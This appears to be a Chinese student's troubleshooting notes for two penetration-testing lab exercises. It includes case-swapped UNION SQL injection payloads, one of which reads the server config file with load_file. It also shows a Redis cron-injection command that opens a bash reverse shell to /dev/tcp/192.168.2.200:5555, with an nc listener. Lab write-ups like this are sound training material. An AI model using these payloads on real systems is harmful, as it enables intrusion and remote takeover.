企业环境渗透1&2问题总结
做实验时遇到的问题汇总，希望能帮助到大家👇
企业环境渗透1
任务二 sql注入
联合查询失败问题
可以大小写绕过
1 | ?id=-1 UniOn SeleCt 1,2,3,4,5,6,7,8,9,0 |

发现 1 和 3 为显示位 ，接下来就可以进行一系列操作啦
-
确定当前使用的数据库
1
?id=-1 UniOn SeleCt 1,2,database(),4,5,6,7,8,9,0

-
确定当前使用的用户
1
?id=-1 UniOn SeleCt 1,2,user(),4,5,6,7,8,9,0

-
读取 apache 的配置文件，得到网站根目录
1
?id=-1 UniOn SeleCt 1,2,load_file(“/etc/httpd/conf/httpd.conf”),4,5,6,7,8,9,0

这里汇总了一下常见的 SQL 注入 pypass 方法，大家也可以试试其他方法

任务三
打开虚拟终端
我之前没明白教程上的终端图从哪来的

打开之后长这样

任务四
远程连接失败问题
远程登录时，出现以下报错

更改了 reGeorgSocksProxy.py 代理设置的端口，从 8080 更改为 8888，解决了远
程登录的问题。
企业环境渗透2
首先操作机应该是192.168.2.200，只有这台机器是kali Linux机，我登了半天，坑人。
任务一
.jar文件运行命令
1 | java -jar WebLogic_EXP.jar |
任务二
打开网页
漏洞信息网页可以在本机上打开，虚拟机无法访问
任务三
查找漏洞字段的方法
-
访问http://192.168.2.11/wp-admin页面，可以看到左上角有 Length 字样，需要测试 length 是哪个字段的长度

-
使用Burpsuite的repeater模块探测漏洞字段。

-
修改host字段，发现Host字段的长度即是响应中length的值，即漏洞字段为Host

任务五
上传avi文件
必须是以‘123.avi’的文件名上传，才会有下载的文件，在/download出下载
修改porxychains.conf
路径：/etc/proxychains.conf
shell 弹不出来
按照网上教程的方法，一直弹不出1.11的shell，这里提供另一种方法：
-
按步骤得到456.avi
-
开启一个终端，打开任务四中的代理(reGeorgeSocksProxy)
-
打开另一个终端，监听端口5555：“nc -lvp 5555”
-
再打开另一个终端，输入指令“proxychains redis-cli -h 192.168.1.11”(最好新打开，不要用之前的)
-
输入命令：
1
2
3
4set a "\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.2.200/5555 0>&1\n"
ccoonnffiigg set dir /var/spool/cron
ccoonnffiigg set dbfilename root
save -
在监听5555端口的终端得到反弹的shell

还有一个问题，shell维持的时间可能比较短，很拼手速，一个小tips：可以先打出命令，登弹出时，直接回车就行。